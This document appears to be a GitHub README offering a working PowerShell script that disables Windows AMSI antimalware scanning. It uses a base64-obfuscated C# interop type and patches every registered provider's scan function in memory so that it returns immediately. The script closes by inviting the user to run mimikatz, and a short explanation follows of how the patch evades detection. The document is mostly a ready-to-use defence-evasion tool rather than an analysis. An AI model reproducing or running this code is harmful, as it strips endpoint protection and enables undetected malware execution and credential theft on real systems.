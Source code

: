 ## Overview

This repository houses a PowerShell script engineered to circumvent the AMSI. AMSI serves as a security feature, allowing integration with antivirus and antimalware products to bolster threat protection. 

## Script
```pwsh
$g = [Text.Encoding]::UTF8.GetString([Convert]::FromBase64String('dXNpbmcgU3lzdGVtOw0KdXNpbmcgU3lzdGVtLlJ1bnRpbWUuSW50ZXJvcFNlcnZpY2VzOw0KcHVibGljIGNsYXNzIEFwaXMgew0KICBbRGxsSW1wb3J0KCJrZXJuZWwzMiIpXQ0KICBwdWJsaWMgc3RhdGljIGV4dGVybiBib29sIFZpcnR1YWxQcm90ZWN0KEludFB0ciBscEFkZHJlc3MsIFVJbnRQdHIgZHdTaXplLCB1aW50IGZsTmV3UHJvdGVjdCwgb3V0IHVpbnQgbHBmbE9sZFByb3RlY3QpOw0KICBbRGxsSW1wb3J0KCJhbXNpIildDQogIHB1YmxpYyBzdGF0aWMgZXh0ZXJuIGludCBBbXNpSW5pdGlhbGl6ZShzdHJpbmcgYXBwTmFtZSwgb3V0IEludDY0IGNvbnRleHQpOw0KfQ=='))

Add-Type $g

$r = [Convert]::FromBase64String('uLgA/wDD')
$y = 0; $i = 0
$SIZE_OF_PTR = 8
[Int64]$z = 0

# Initializing AMSI
try {
    [Apis]::AmsiInitialize("MyScanner", [ref]$z)
    Write-Host "AMSI initialized successfully. Context: $z"

    # Retrieve pointers for AMSI providers
    $b = [System.Runtime.InteropServices.Marshal]::ReadInt64([IntPtr]$z, 16)
    Write-Host "Providers pointer: $b"

    $c = [System.Runtime.InteropServices.Marshal]::ReadInt64([IntPtr]$b, 64)
    Write-Host "Initial provider pointer: $c"
} catch {
    Write-Host "Error during AMSI initialization or pointer retrieval: $_"
    exit 1
}

# Iterate through AMSI providers
try {
    while ($c -ne 0) {
        $d = [System.Runtime.InteropServices.Marshal]::ReadInt64([IntPtr]$c)
        $e = [System.Runtime.InteropServices.Marshal]::ReadInt64([IntPtr]$d, 24)
        Write-Host "[$i] Provider's scan function found at address: $e"

        if (![Apis]::VirtualProtect($e, [uint32]6, 0x40, [ref]$y)) {
            throw "Failed to change memory protection at address: $e"
        }

        [System.Runtime.InteropServices.Marshal]::Copy($r, 0, [IntPtr]$e, 6)
        Write-Host "[$i] Scan function patched successfully."

        $i++
        $c = [System.Runtime.InteropServices.Marshal]::ReadInt64([IntPtr]$b, 64 + ($i * $SIZE_OF_PTR))
    }
    Write-Host "Patching completed successfully."
    Write-Host "You can Invoke mimikatz now (: "
} catch {
    Write-Host "Error during provider iteration and patching: $_"
    exit 1
}
```



## Script Approach
***Initializing AMSI and Retrieving Pointers***: The script starts by setting up AMSI and getting pointers, which are like signposts pointing to important parts of AMSI.

***Finding Scan Functions***: It then looks through these pointers to find where AMSI does its scanning work, kind of like finding where a detective does their investigation.

***Patching Scan Functions with RET 0***: When it finds these scanning spots, the script changes them so that when they're called, they immediately stop and say "everything's okay." This makes the scans skip right over any potentially harmful stuff.

***Changing Memory Access***: Before making these changes, the script adjusts the way the computer sees these scanning spots so it can make changes to them, kind of like getting permission to edit a document.

***Covering All Bases***: The script repeats these steps for every way AMSI does its scanning, ensuring that no matter how AMSI checks for bad stuff, the script can sneak past it.
